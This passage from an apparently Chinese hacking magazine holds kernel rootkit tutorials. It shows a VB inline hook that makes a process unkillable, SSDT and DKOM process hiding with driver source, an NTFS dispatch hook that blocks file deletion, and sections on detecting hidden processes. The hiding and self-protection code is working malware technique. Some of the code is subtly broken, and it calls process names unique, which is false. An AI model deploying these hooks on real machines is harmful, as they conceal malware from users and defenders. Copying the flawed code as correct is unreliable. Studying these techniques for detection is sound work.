正的 BASIC 语言编程工具，所以不算。下面我就用公认“纯正”的 BASIC 语言编程工具 VB，来实现 Inline Hook，并且是 Ring0 下的 Inline Hook。在 VB 中 Hook 这个函数的原理很简单，就是先对照内核文件，找出 PspTerminateThreadByPointer 的地址，修改 PspTerminateThreadByPointer 的前两字节形成一个短跳转，然后往跳转后的地址里写入 Shellcode（这个 Shellcode 某些部分要动态生成，其实就是 Fake_PspTerminateThreadByPointer 函数）。

```vb
查找 PspTerminateThreadByPointer 的地址
Private Function SearchPspTerminateThreadByPointer(ByVal PsTerminateSystemThreadAddress As Long) As Long
    ' PsTerminateSystemThreadAddress 是 PsTerminateSystemThread 的地址
    Dim Buffer() As Byte, Offset As Long, Length As Long
    Buffer = ReadKernelMemory2(PsTerminateSystemThreadAddress, 256)
    Do
        Length = ade32_disasm(VarPtr(Buffer(Offset)))
        If Length = 5 Then
            If Buffer(Offset) = &HE8 Then
                SearchPspTerminateThreadByPointer = UAdd(UAdd(PsTerminateSystemThreadAddress, Offset + 5), DwordToPtr(VarPtr(Buffer(Offset + 1))))
                Exit Function
            End If
        End If
        Offset = Offset + Length
    Loop While Offset > 0 And Offset < 255
End Function

挂钩 PspTerminateThreadByPointer
Public Sub HookPspTerminateThreadByPointer()
    Dim Opcode() As Byte, Test() As Byte
    ReDim Opcode(0 To 21)
    Opcode(0) = &HB1
    Opcode(1) = &H7C
    ...
    If ModifyKernelMemory2(KernelBaseAddress + 32, Opcode) = False Then
        '写数据失败
        Exit Sub
    End If

    ReDim Opcode(0 To 4)
    Opcode(0) = &HE9
    DwordToPtr VarPtr(Opcode(1)), USub(KernelBaseAddress + 32, PspTerminateThreadByPointer)
    If ModifyKernelMemory2(PspTerminateThreadByPointer - 5, Opcode) = False Then
        '写数据失败
        Exit Sub
    End If

    ReDim Opcode(0 To 1)
    Opcode(0) = &HEB
    Opcode(1) = &HF9
    If ModifyKernelMemory2(PspTerminateThreadByPointer, Opcode) = False Then
        '写数据失败
        Exit Sub
    End If
End Sub
```

这段 Shellcode 用 C 语言可以描述如下：

```c
NTSTATUS Fake_PspTerminateThreadByPointer(PETHREAD Thread, NTSTATUS ExitStatus)
{
    // 如果要保护的线程 ETHREAD 是 0x86938930，这个地址是动态生成的
    if ((ULONG)Thread == 0x86938930)
        return 0xC0000022; // 拒绝访问
    else
        return Real_PspTerminateThreadByPointer(Thread, ExitStatus); // 地址动态生成
}


```

当然，这只是一个例子，其中没有任何地址验证之类的措施，但是效果还可以，用 RkU 无法结束（内存清零只能导致进程挂死），甚至用冰刃的线程强杀都无法结束。但不知为何，直接用任务管理器结束这个进程会蓝屏，所以如果真的要挂钩内核函数，还是写驱动好。

图 2 是对应的汇编代码，相信学过一点汇编的都看得懂。图 3 和图 4 是在 Windows 2003 SP2 上运行时挂钩前后的对比。
图 2
图 3
图 4

事实证明，此程序也能在 Windows 7 x86 上运行。

在 vistalkd.exe 的帮助下，能用 WinDBG 看到类似上述的信息，但由于冰刃和 RkU 都不支持 Windows 7，所以无法测试效果。

同理，我们还能利用 Shellcode 的方式在 VB 里“变标”调用内核函数。首先在 MySystemDebugControl 中写一个空函数，比如 NOP_256()，即整个函数由 256 个 NOP 构成。设置当 IOCTL=0x806 时，在 DispatchIoctl() 中调用函数 NOP_256，得到 NOP_256 函数的地址并传回 VB 程序。向 NOP_256 的地址 + 2 处开始写入 Shellcode，使用 IOCTL=0x800 来触发 DispatchIoctl()。

NtSystemDebugControl 除了能 Hook 与 Unhook 之外，还能进行 DKOM、检测隐藏进程/隐藏的进程模块、枚举内核模块、消息钩子、IDT、GDT 等。由于这些黑防都已经讲过，所以就略过不讲了。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：编程、进程隐藏、进程检测

##### Ring0 级 Rootkit

##### 进程隐藏与检测技术

文/图 小小杉
近来自己主机上老是莫名其妙地感染病毒（即在文件夹后默然追加了一个后缀 .exe），以前也碰到过这种情形，即只要点击受感染的 Office 文件，则分区下所有的 Office 文件将全部感染，后来也好好分析过此病毒，即“sola 病毒”。起初没有去管这事，后来实在受不了了就打算手工清除此病毒。打开任务管理器，发现了一些诡异进程，由数字和字母构成。显然不是正常进程，就运行 regedit.exe 搜索注册表，尝试搜索此进程，并手工删除了其对应的所有键值。重新查看受感染的分区，发现清除成功。这才顿悟，这不是 sola 病毒，只是某些人写的一个再简单不过的病毒。

引用上面的话，只是想说尽管我们已经谈论并以各种方式实现了不同级别的进程隐藏技术，但很多人却并不晓得编写简单代码，既可躲过任务管理器的进程显示列表。

Jimtokin 在《Detection of Hidden Process》一文中曾指出——估计 1000 个木马中仅有 1 个是进程隐藏的。可见，市面上见到的那些简单木马绝大部分出自新手级黑客。黑客从事的攻击活动需要尽可能部署得尽善尽美，任何一个环节出现弱点，都将是致命的。这其实等同于网络安全技术，尽管你在多个环节上部署了多层级安全防御措施，但任一环节出现漏洞，则全盘皆输。

言归正传，下面谈论下进程隐藏与检测技术。尽管进程隐藏技术已经被众多人讨论过，但笔者的目的是想通过此文，尽可能综合当前出现的各种进程隐藏与检测技术，谈论每种技术实现的特点及其如何实现，通过代码分析，尽可能全面地讲解 Ring0 下出现的各种进程隐藏与检测技术。

##### 进程隐藏技术

最早出现的进程隐藏技术，其实可追溯到 Ring3 下的线程注入，即在目标进程上下文中创建一个远程线程，通过此线程注入恶意 DLL 文件到目标进程中，借助目标进程的运行而被加载。基本步骤为：用 OpenProcess 打开目标进程，访问权限为 Process_VM_Operation 或 Process_VM_Write；获取 kernel32.dll 下 LoadLibrary 地址；在指定的目标进程中调用 VirtualAllocEx 函数，在目标进程地址空间中开辟一块内存；创建一个远程线程，将恶意 DLL 文件加载到已分配的内存空间中。流程如图 1 所示。
图 1　在 Ring3 下远程线程注入攻击流程

随着 SSDT Hook 技术的提出，涌现出大量针对 SSDT 的 Hook 攻击代码。SSDT 中存放了系统调用函数内存地址，即任意给定的类似 Nt*() 函数，在 SSDT 表中都可以找到其内存地址，通过简单的索引即可获取指定函数的内存地址。对应的索引值为：`IndexValue = *((PULONG*)((PCHAR*)address + 1));`。我们可以借助 WinDbg 工具，查看 ZwOpenProcess 进程的函数实现，如图 2 所示。
图 2　WinDbg 下 ZwOpenProcess 函数实现的部分代码

SSDT 结构体这里不再给出，不知道的读者可用 Google 搜索查阅。通过定义此结构体，其内部存在 ServiceTableBase 参数，通过 ServiceTableBase[IndexValue] 即可获取任意系统函数的内存地址。OK，此时则可大刀阔斧地 Hook 这些内存地址了。下面阐述如何借助 SSDT 实现进程隐藏。

- 1) **基于 SSDT 的进程隐藏技术**
  - Windows 系统下存在大量的 ZwQuery* 函数，如需要隐藏目录文件则可 Hook ZwQueryDirectoryFile() 函数。
  - 此处，我们需要实现进程隐藏，而进程是系统资源，故我们不妨查看 ZwQuerySystemInformation() 函数，看看是否有眉目。

在 NativeAPI 文档中可以查看到其定义：

```c
NTSYSAPI NTSTATUS NTAPI ZwQuerySystemInformation(
    IN SYSTEM_INFORMATION_CLASS SystemInformationClass,
    IN OUT PVOID SystemInformation,
    // 不同 SystemInformationClass 返回不同的内容
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength OPTIONAL
);
```

SystemInformation 指针返回的内容由 SystemInformationClass 确定，SystemInformationClass 及更多与此函数相关的定义可到 MSDN 查看。SYSTEM_INFORMATION_CLASS 结构体中包含了大量与系统相关的信息，这里我们只关心 SystemProcessInformation。在调用 ZwQuerySystemInformation 函数时，若系统信息级等于系统进程信息，则 SystemInformation 指针将指向当前正在运行进程中包含的大量结构体数组，即 SYSTEM_PROCESS_INFORMATION。其详细定义如下：

```c
typedef struct _SYSTEM_PROCESS_INFORMATION {
    ULONG NextEntryOffset;
    BYTE Reserved1[52];
    PVOID Reserved2[3];
    HANDLE UniqueProcessId;
    PVOID Reserved3;
    ULONG HandleCount;
    BYTE Reserved4[4];
    PVOID Reserved5[11];
    SIZE_T PeakPagefileUsage;
    SIZE_T PrivatePageCount;
    LARGE_INTEGER Reserved6[6];
} SYSTEM_PROCESS_INFORMATION;
```

NextEntryOffset 参数表示每个结构体之间的偏移，即紧邻的下一个结构体地址为上一个结构体地址加 NextEntryOffset 值，并不代表指针。故我们在隐藏进程时，跳过某个进程的 SYSTEM_PROCESS_INFORMATION 结构体时，并不是执行语句：`pSpi_ptr->NextEntryOffset = cSpi_ptr->NextEntryOffset;`，而是执行语句 `pSpi_ptr->NextEntryOffset = cSpi_ptr->NextEntryOffset + pSpi_ptr->NextEntryOffset;`，结构体之间的连接关系如图 3 所示。

显然，此刻若要实现进程隐藏，只需要 Hook 函数 ZwQuerySystemInformation，然后在新的 Hook 函数中，调用此函数判断获取到的 SystemInformationClass 是否为进程信息级；若是，则获取 SYSTEM_PROCESS_INFORMATION 结构体内容，循环遍历上面的链表结构，判断每个结构中的 UniqueProcessId 是否为指定的进程 ID；但若需要隐藏指定进程，则需要判断进程名是否……一致，故此时需要将 `BYTE Reserved1[52];` 和 `PVOID Reserved2[3];` 解析出真实含义。对应的内容如下：

图 3 SYSTEM_PROCESS_INFORMATION 结构体链表结构

```c
ULONG Reserved[6];
KPRIORITY BasePriority;
LARGE_INTEGER CreateTime;
LARGE_INTEGER UserTime;
LARGE_INTEGER KernelTime;
UNICODE_STRING ProcessName; // 进程名
```

因为在任务管理器下可能会显示多个不同 ID 的同一进程，故此处实现进程名过滤最为可靠。以下是简单的代码分析实现。

```c
NTSTATUS NewZwQuerySystemInformation(
    IN ULONG SystemInformationClass,
    IN PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength
)
{
    NTSTATUS ntStatus;
    PSYSTEM_PROCESS_INFO cSpi_ptr;
    PSYSTEM_PROCESS_INFO pSpi_ptr;

    ntStatus = ((ZWQUERYSYSTEMINFORMATION)(OldZwQuerySystemInformation))(
        SystemInformationClass,
        SystemInformation,
        SystemInformationLength,
        ReturnLength
    );
    if (!NT_SUCCESS(ntStatus)) return ntStatus;
    if (SystemInformationClass != SystemProcessInformation) return ntStatus;

    cSpi_ptr = (PSYSTEM_PROCESS_INFO)SystemInformation;
    pSpi_ptr = NULL;
    while (cSpi_ptr != NULL) {
        if (0 == _memicmp(cSpi_ptr->ProcessName.Buffer, L"notepad.exe", 12)) {
            if (pSpi_ptr != NULL) {
                if (cSpi_ptr->NextEntryOffset == 0) {
                    pSpi_ptr->NextEntryOffset = 0;
                } else {
                    pSpi_ptr->NextEntryOffset += cSpi_ptr->NextEntryOffset;
                }
            } else {
                if (cSpi_ptr->NextEntryOffset == 0) {
                    SystemInformation = NULL;
                } else {
                    (BYTE*)SystemInformation = (BYTE*)SystemInformation + cSpi_ptr->NextEntryOffset;
                }
            }
        }
        pSpi_ptr = cSpi_ptr;
        if (cSpi_ptr->NextEntryOffset != 0)
            (BYTE*)cSpi_ptr = (BYTE*)cSpi_ptr + cSpi_ptr->NextEntryOffset;
        else
            cSpi_ptr = NULL;
    }
    return ntStatus;
}
```

```c
// 表示当前链表中只存在当前待隐藏进程
SystemInformation = NULL;
...
// 头结点为待隐藏进程结点
(BYTE*)SystemInformation = (BYTE*)SystemInformation + cSpi_ptr->NextEntryOffset;
...
pSpi_ptr = cSpi_ptr;
if (cSpi_ptr->NextEntryOffset != 0)
    (BYTE*)cSpi_ptr = (BYTE*)cSpi_ptr + cSpi_ptr->NextEntryOffset;
else
    cSpi_ptr = NULL;
...
return ntStatus;
```

驱动的加载与卸载的代码实现如下：

```c
VOID OnUnload(IN PDRIVER_OBJECT DriverObject) {
    DbgPrint("Device has been unloaded\n");
    (ZWQUERYSYSTEMINFORMATION)(SYSTEMSERVICE(ZwQuerySystemInformation)) = OldZwQuerySystemInformation;
    DbgPrint("Driver has been unloaded\n");
    return;
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING theRegistryPath) {
    DbgPrint("Driver is beginning to load\n");
    DriverObject->DriverUnload = OnUnload;
    OldZwQuerySystemInformation = (ZWQUERYSYSTEMINFORMATION)(SYSTEMSERVICE(ZwQuerySystemInformation));
    (ZWQUERYSYSTEMINFORMATION)(SYSTEMSERVICE(ZwQuerySystemInformation)) = NewZwQuerySystemInformation;
    return STATUS_SUCCESS;
}
```

SSDT 的结构体定义这里就不再给出了。通过上面的代码可简单实现 Ring0 级指定进程的隐藏，但 CPU 的使用率可能会发生变化，因为指定进程被过滤了，而实际上它还在系统中运行。细心的读者可以测试。若隐藏占据一定 CPU 时间的进程，则成功隐藏后，打开任务管理器，所有进程 CPU 占有率相加并不会等于 100%，故为了隐藏做得更加仔细，我们最好将被隐藏进程所占用的 CPU 时间，全部累加到 System Idle Process 上。

##### 2）DKOM 技术实现进程隐藏

直接操作内核对象，通过分析内核对象成员，过滤特定进程的内核对象结构实现进程隐藏。DKOM 技术最早由 Jamie Butler 提出，感兴趣的读者可参考文献《Hidden Processes: The Implication for Intrusion Detection》，著名的 FU Rootkit 也出自 Jamie。通过调用 `PsGetCurrentProcess()` 内核函数可获取当前执行线程对应进程对象 EPROCESS 结构。利用 WinDbg 工具查看其实现如下：

```c
kd> uf nt!PsGetCurrentProcess
nt!IoGetCurrentProcess:
804ef608 64a124010000 mov eax, fs:[00000124]
804ef60e 8b4044      mov eax,[eax+0x44]
804ef611 c3          ret
```

其中偏移 `fs:[00000124]` 中存放了当前线程 ETHREAD 结构体地址，此地址由 `KiInitialThread` 函数导出。其中 ETHREAD 结构体中存在一个 ApcState 域，该值存放了对应进程的进程对象体 EPROCESS。这里不再给出调试结果，读者可通过 WinDbg 工具自行查看。

知道了如何获取进程的对象体 EPROCESS，现在需要获知 EPROCESS 的具体成员变量内容，比如是否存在一个进程链表结构 LIST_ENTRY，以及进程 ID 和进程名等成员。在 WinDbg 下输入 `dt -b -v _EPROCESS` 命令可获取 EPROCESS 的详细内容。获取的结果如下：

```c
kd> dt nt!_EPROCESS
+0x000 Pcb             : _KPROCESS
......
+0x080 RundownProtect  : _EX_RUNDOWN_REF
+0x084 UniqueProcessId : Ptr32 Void
......
+0x174 ImageFileName   : [16]UChar
+0x088 ActiveProcessLinks : _LIST_ENTRY
```

其中下面划线的成员变量是我们感兴趣的，包括进程 ID、进程名和进程链表。通过进程链表我们可以遍历所有的进程 EPROCESS 结构体，进而可过滤到待隐藏进程。可能有读者会问结构体中怎么会同时出现进程 ID 和进程名，既然存在进程名，必然对应一个进程 ID。这是错误的，实际上进程名是唯一的，进程 ID 可不同，即多个进程 ID 可映射到同一个进程名上。故具体流程如下所示：

- 1）定位处理器控制块（KPRCB）地址，此结构基地址在系统内核空间中锁定为 `0xffdff120`。
- 2）定位当前线程块（ETHREAD）地址，KPRCB 中有一表项指向当前线程块（ETHREAD），直接定位基地址于 `fs:[124]` 或者 `0xffdff124`；ETHREAD 中包含内核线程块（KTHREAD）。
- 3）定位当前进程块（EPROCESS）地址，在内核线程块中包含指向当前进程块（EPROCESS）的指针，利用该指针分析 EPROCESS 结构，即找到对应链表。
- 4）根据 PID 或者进程名获得链表，确定隐藏进程的 EPROCESS 位置，调整其前后进程对应 EPROCESS 中链表结点，将隐藏进程的 EPROCESS 从链表中摘除。操作结构图如图 4 所示。

具体操作时，我们不必定位到 KPRCB 地址，然后再逐步定位，实际上通过 `PsGetCurrentProcess` 函数即可获取到 EPROCESS 地址，然后定位到 `LIST_ENTRY` 即可获取进程对象链表。代码分析实现如下：

图 4 进程对象 EPROCESS 链表结构

```c
void SearchProcessNode(DWORD pid)
{
    UCHAR *currentPEP, *nextPEP;
    int currentPID = 0, flag = 0, startPID = 0, count = 0;
    UCHAR proc_name[16];
    const int HiLimit = 1048576; // 设置上限，避免死循环

    currentPEP = (UCHAR*)PsGetCurrentProcess();
    currentPID = *((unsigned long*)(currentPEP + EPROCESS_PID_OFFSET));
    getProcessName(proc_name, (currentPEP + PROCESS_OFFSET_NAME));
    startPID = currentPID;
    flag = 0;

    if (currentPID == pid) {
        modifyTaskListEntry(currentPEP);
        DbgPrint("Process name is %s, PID=%d is Hidden\n", proc_name, pid);
        return;
    }

    while (startPID != currentPID || flag == 0) {
        nextPEP = getNextProcessList(currentPEP);
        currentPEP = nextPEP;
        currentPID = *((unsigned long*)(currentPEP + EPROCESS_PID_OFFSET));
        getProcessName(proc_name, (currentPEP + PROCESS_OFFSET_NAME));
        if (currentPID == pid) {
            modifyTaskListEntry(currentPEP);
            DbgPrint("Process name is %s, PID=%d is Hidden\n", proc_name, pid);
            return;
        }
        count++;
        flag++;
        if (count >= HiLimit) return;
    }
    return;
}

// 获取当前 LIST_ENTRY 结构体中的下一个进程对象
UCHAR* getNextProcessList(UCHAR *current){
    UCHAR *next, *fLink;
    LIST_ENTRY listEntry;
    listEntry = *((PLIST_ENTRY)(current + PROCESS_LIST_OFFSET));
    fLink = (ULONG*)listEntry.Flink;
    next = fLink - offset;
    return next;
}

// 获取当前 LIST_ENTRY 结构体中的前一个进程对象
UCHAR* getPreProcessList(UCHAR *current){
    UCHAR *preHandleTable = NULL;
    UCHAR *blink = NULL;
    LIST_ENTRY listEntry;
    listEntry = *((LIST_ENTRY*)(current + PROCESS_LIST_OFFSET));
    blink = (UCHAR*)listEntry.Blink;
    preHandleTable = (blink - PROCESS_LIST_OFFSET);
    return preHandleTable;
}

// 删除需隐藏进程对象的结点
void hideProcess(UCHAR *h_process_cur){
    UCHAR *h_process_pre, *h_process_next;
    LIST_ENTRY *ListEntry_cur, *ListEntry_pre, *ListEntry_next;

    h_process_pre = getPreProcessList(h_process_cur);
    h_process_next = getNextProcessList(h_process_cur);

    // 获取当前 EPROCESS 结构体中 LIST_ENTRY 的指针地址
    ListEntry_cur  = ((LIST_ENTRY*)(h_process_cur + PROCESS_LIST_OFFSET));
    ListEntry_pre  = ((LIST_ENTRY*)(h_process_pre + PROCESS_LIST_OFFSET));
    ListEntry_next = ((LIST_ENTRY*)(h_process_next + PROCESS_LIST_OFFSET));

    // 删除当前结点 ListEntry_cur，LIST_ENTRY 为双向链表结构
    ListEntry_pre->Flink = ListEntry_next;
    ListEntry_next->Blink = ListEntry_pre;

    // 使当前结点的前后指针指向自身
    ListEntry_cur->Flink = ListEntry_cur;
    ListEntry_cur->Blink = ListEntry_cur;
}
```

`PROCESS_LIST_OFFSET`、`EPROCESS_PID_OFFSET` 和 `EPROCESS_OFFSET_NAME` 三个偏移值，读者可以通过 WinDbg 调试工具输入 `dt nt!_EPROCESS` 命令查看到对应三个变量的偏移值。`DriverEntry` 入口函数和 `DriverUnload` 函数可参考前面给出的代码修改。

通过上面几行代码即可实现 DKOM 方式下的进程隐藏技术。当然，有人提出通过 HANDLE_TABLE 地址来遍历进程，然后过滤指定的进程，这种方式同样可行。因为每个进程必然对应打开一个进程句柄。我们不妨通过 WinDbg 查看它们的内部结构，如图 5 所示。

图 5 EPROCESS 和 HANDLE_TABLE 的结构  
图 5 EPROCESS 和 HANDLE_TABLE 的结构（续）

由图可知，通过 HANDLE_TABLE 确实可以获取进程的 ID 号，且其中包含 LIST_ENTRY 结构，满足隐藏条件，感兴趣的读者可以自行编写代码实现隐藏。

##### 进程的检测技术

对于前面通过 Hook `ZwQuerySystemInformation` 实现的隐藏技术，只需要我们采用 DKOM 技术即可对抗，成功检测出隐藏的进程。首先通过 `PsGetCurrentProcess` 函数获取当前进程的 EPROCESS 结构，然后定位到 HANDLE_TABLE 结构，根据 HANDLE_TABLE 来遍历整个句柄表，枚举出每个进程 ID，包括进程名，即可对抗 Hook `ZwQuerySystemInformation` 技术，成功检测出隐藏进程。遍历 HANDLE_TABLE 的实现代码如下：

```c
void traverseHandles(){
    unsigned char process_name[16];
    PEPROCESS process_ptr;
    unsigned char *h_tableaddr_start, *eprocess_addr, *handle_tableaddr;
    unsigned long pid, nProc;

    process_ptr = PsGetCurrentProcess();
    eprocess_addr = (unsigned char*)process_ptr;
    handle_tableaddr = eprocess_addr + OFFSET_EPROCESS_HANDLETABLE;
    h_tableaddr_start = (unsigned char*)(*((unsigned long*)handle_tableaddr));

    pid = getPid(h_tableaddr_start);
    nProc = 1;
    getProcessName(process_name, eprocess_addr + OFFSET_PROCESS_NAME);
    DbgPrint("Process id:%04d, Process name:%s\n", pid, process_name);

    // 通过遍历 HANDLE_TABLE 以获取此结构体中的进程 ID
    handle_tableaddr = getNextEntry(h_tableaddr_start, OFFSET_HANDLE_LISTENTRY);
    eprocess_addr = getNextEntry(eprocess_addr, EPROCESS_ENTRY);

    while (handle_tableaddr != h_tableaddr_start) {
        pid = getPid(handle_tableaddr);
        memset(process_name, 0, sizeof(process_name));
        getProcessName(process_name, eprocess_addr + OFFSET_PROCESS_NAME);
        DbgPrint("Process id:%04d, Process name:%s\n", pid, process_name);
        nProc++;
        handle_tableaddr = getNextEntry(handle_tableaddr, OFFSET_HANDLE_LISTENTRY);
    }
}
```

##### 编程解析（PROGRAMMING ANALYSIS）

```c
eprocess_addr = getNextEntry(eprocess_addr, EPROCESS_ENTRY);
...
DbgPrint("traverseHandles(): Number of Processes=%d", nProc);
}


```
实现结果对比如图6所示，进程 lsass.exe 确实躲避了任务管理器，但在 DKOM 技术面前却暴露无遗。现在我们讨论如何检测 DKOM 技术下的进程隐藏。若只是过滤了 EPROCESS 结构，则完全可以借助 HANDLE_TABLE 遍历检测出此进程。但此时 HANDLE_TABLE 的地址则不可能从 EPROCESS 结构中获取，因为其本身都已经被隐藏了。

由图可知，函数首先 push 参数 PspCidTable 地址和进程 ID，然后调用 ExMapHandleToPointer 函数实现进程对象的获取。当然，ExMapHandleToPointer 内部仍然是调用 ExpLookupHandleTableEntry()，根据指定的句柄查找相应的 HANDLE_TABLE。函数体内部的实现依旧是通过 HandleTable->TableCode 成员来判断是第几级表，故我们可以从 PspCidTable 入手，获取此地址，然后赋值给 TableCode，根据 TableCode 来判断是哪级表，之后映射到指定的 HANDLE_TABLE_ENTRY 结构中遍历每个对象。PspCidTable 地址的获取可以借助 PsLookupProcessByProcessId 来定位，在此函数中搜索关键字 0x35ff 和 0xe8 即可。由图7可知，0x35ff 和 0xe8 中间的 4 字节内容即为 PspCidTable 地址。搜索代码如下：
回顾图5中 HANDLE_TABLE 结构体中第一个参数为 TableCode，实际上 HANDLE_TABLE 并不是真正的句柄表结构，真实的句柄表需要依据 TableCode 来定位。Windows XP 下句柄表是三层表结构，每个句柄表大小为 4KB，每个表项为一个 HANDLE_TABLE_ENTRY 结构，占 8 字节，故每个表只能存放 512 个表项。TableCode 的后两位若为 00 则为 1 级表，01 为 2 级表，02 为 3 级表。类似于内存的分页机制，将固定的内存大小按每页 4KB 大小分页，映射到多级页表中。

IceSword 就运用了 TableCode 来定位 HANDLE_TABLE_ENTRY 结构，遍历此结构检测出隐藏进程。TableCode 值实际上等于 PspCidTable 变量。PspCidTable 中存放的对象是系统中所有的进程、线程对象，其索引就是 PID 和 TID，其中存放对象体 EPROCESS 和 ETHREAD，而每个进程私有的句柄表存放的是进程对象头 OBJECT_HEADER。

实际上，进程或线程创建时，PspCreateProcess() 函数会在 PspCidTable 中以进程对象的方式创建句柄，即“Process->UniqueProcessId = ExCreateHandle(PspCidTable, &CidEntry);”。也就是说，PID 和 TID 分别是 EPROCESS 和 ETHREAD 对象在 PspCidTable 这个句柄表中的索引。用 WinDbg 查看 PsLookupProcessByProcessId() 函数的部分实现，如图7所示。

```c
ULONG GetPspCidTableAddr(){
    UNICODE_STRING pslookupPbP;
    PUCHAR addr, p;
    ULONG tmpAddr;
    RtlInitUnicodeString(&pslookupPbP, L"PsLookupProcessByProcessId");
    addr=(PUCHAR)MmGetSystemRoutineAddress(&pslookupPbP);
    for(p=addr; p<addr+PAGE_SIZE; p++){
        if((*(PUSHORT)p==0x35ff)&&(*(p+6)==0xe8)){
            tmpAddr=*(PULONG)(p+2);
            return tmpAddr;
        }
    }
    return 0;
}


```

针对 TableCode 的判断，如何进行多表级映射，感兴趣的读者可参考相关文献。作者指出通过这种方式寻找 PspCidTable 并不稳定，因为即使是编写内核时做了一点点编译器优化，上面的方法也可能会失败，易导致 BSoD，并给出了解决方案，建议采用 KDDEBUGGER_DATA32 结构，此结构中存储了大量未导出变量，其中就包括 PspCidTable 地址。

除了利用 PspCidTable 来检测进程之外，芬兰安全公司 F-Secure 研发出的 Blacklight 工具，主要功能即检测隐藏进程。其不再尝试检测各种钩子，而是在 Ring3 级实现进程检测。Blacklight 启动时循环检测从 0x0 到 0x41DC 之间的所有有效 PID，并对每一个可能的 PID 调用 OpenProcess 来检测进程是否存在。如果 OpenProcess 成功返回，Blacklight 就储存其进程信息，然后继续循环。一旦所有可能的 PID 都被循环检测，Blacklight 则对 PIDB 列表和 CreateToolhelp32Snapshot 返回的列表进行比对，两张列表之间的差异就表示存在隐藏进程。

##### 小结

一直以来，Rootkit 都试图抹掉进程在系统中留下的痕迹，同时干扰进程检测函数的正常工作，以达到隐匿运行中的代码的目的。但是运行于系统中的进程总是和系统有着各种联系，如打开的句柄等，进程检测技术希望不断发现出这些关联，以此获得真实的进程列表；同时进程检测技术也在向不依赖操作系统这一目标努力。总之，进程的隐藏和检测在攻与防的对抗中不断向前发展。伴随着 DKOM 技术的提出，已经演变出了针对进程隐藏与检测的各种 Rootkit。比较著名的检测工具有 Blacklight、IceSword 和 Rootkit Revealer。当然，DKOM 技术的提出并不只是推进了进程的隐藏与检测，包括文件及目录的隐藏、驱动的隐藏与检测、进程访问令牌的 Hook 技术等等。随着更多高新技术的提出，进程的隐藏与检测一定还会向前继续发展。

前置知识：VC

关键词：编程、FSD Hook、分发例程

##### 利用 FSD Hook IRP 分发例程保护文件
文/liuke_blue

CNNIC 中文上网这个流氓插件不知道大家有没有听说过，极为顽固，利用多种高级 Rootkit 技术来进行自我保护，用户对它束手无策，无法停止、无法删除。为此 360 还专门发布了一款很著名的 360SuperKill 专杀工具，这个工具提到一个当时很新颖的技术——破冰（Kill Defence）。为什么 CNNIC 会造成这么大的轰动效应，因为它当时使用了一种很先进的 Rootkit 技术 FSD Hook。在黑防以前的杂志我们学习到 SSDT Hook、Inline Hook、IDT Hook、EAT Hook 等，但是 FSD Hook 却很少人提到。本文就将给大家介绍 FSD Hook 的其中一种——FSD Hook IRP Dispatch Routine。说到底其实这也是一种 IRP Hook，但其实它是 Hook 发向 FSD（文件系统驱动程序）的 IRP。

文件系统驱动程序（FSD）包括的内容太多太广而且很复杂。我们知道本地 FSD 包括 NTFS 格式、FAT32 格式、VCD 等。磁盘分区常常使用 NTFS、ExFAT 这两种格式。以前还有 FAT16，现在几乎已经没有被使用。磁盘上的数据是以二进制编码保存的，但我们在系统中却能看到文件内容和文件名、文件大小等一系列属性，就是由于存在文件系统驱动程序，它将这些看不懂的、无序二进制原始编码转换成顺序的、逻辑的文件让用户“看到”，所有逻辑上的文件操作（新建、重命名、删除）都是由 FSD 来完成的。因此，我们只要挂钩 FSD 就能实现对文件操作的拦截。在这里说一句题外话，FSD Hook 资料很少，这是微软的原因，它不希望用户对 FSD 进行 Hook，而是希望用户使用它所提供的 Minifilter 框架来进行过滤开发。

其实 FSD Hook 的实现代码并不复杂，以下是其核心代码实现：

```c
CHAR NtfsBuffer[]="\\FileSystem\\Ntfs";
WCHAR Fat32Buffer[]=L"\\FileSystem\\Fastfat";
WCHAR *ProtName=L"fsdhook.sys";
NTSTATUS DriverUnload(IN PDRIVER_OBJECT DriverObject)
{
    NTSTATUS status;
    PDRIVER_OBJECT pFile=NULL;
    UNICODE_STRING Sntfs;
    RtlInitUnicodeString(&Sntfs,NtfsBuffer);
    status=ObReferenceObjectByName(&Sntfs,
        OBJ_CASE_INSENSITIVE,
        NULL,
        0,
        *IoDeviceObjectType,
        KernelMode,
        NULL,
        &pFile);
    if(NT_SUCCESS(status))
    {
        InterlockedExchange((PLONG)&pFile->MajorFunction[IRP_MJ_SET_INFORMATION],(LONG)OldDispatchRoutine);
    }
    ObDereferenceObject(pFile);
    DbgPrint("Unload Ok!");
    status=STATUS_SUCCESS;
    return status;
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT theDriverObject,
                     IN PUNICODE_STRING theRegistryPath)
{
    UNICODE_STRING Sntfs;
    NTSTATUS status;
    PDRIVER_OBJECT pFile=NULL;
    theDriverObject->DriverUnload=DriverUnload;
    RtlInitUnicodeString(&Sntfs,NtfsBuffer);
    status=ObReferenceObjectByName(&Sntfs,
        OBJ_CASE_INSENSITIVE,
        NULL,
        0,
        *IoDeviceObjectType,
        KernelMode,
        NULL,
        &pFile);
    // 保存原来处理文件例程的地址
    OldDispatchRoutine=(PULONG)pFile->MajorFunction[IRP_MJ_SET_INFORMATION];
    DbgPrint("This Old Dispatch Routine=0x%x\n",OldDispatchRoutine);
    // 原来地址如果存在，则用新的函数处理去替换
    if(OldDispatchRoutine)
    {
        InterlockedExchange((PLONG)&pFile->MajorFunction[IRP_MJ_SET_INFORMATION],(LONG)MySetFileControl);
    }
    ObDereferenceObject(pFile);
    status=STATUS_SUCCESS;
    return status;
}

NTSTATUS MySetFileControl(IN PDEVICE_OBJECT DeviceObject,IN PIRP Irp)
{
    NTSTATUS status;
    PIO_STACK_LOCATION irpStack;
    FILE_OBJECT *FileObject=NULL;
    WCHAR *GFileName=NULL;
    irpStack=IoGetCurrentIrpStackLocation(Irp);
    FileObject=irpStack->FileObject;
    try {
        GFileName=wcsrchr(FileObject->FileName.Buffer,L'\\');
        if(GFileName==NULL) { GFileName++; }
        if(!wcsnicmp(GFileName,ProtName,wcslen(ProtName)*2)) {
            ...
        }
    }

    if ((irpStack->Parameters.SetFile.FileInformationClass==FileDispositionInformation)
     || (irpStack->Parameters.SetFile.FileInformationClass==FileRenameInformation))
    {
        return STATUS_ACCESS_DENIED;
    }
    ...
    except(1)
    {
        goto end;
    }
end:
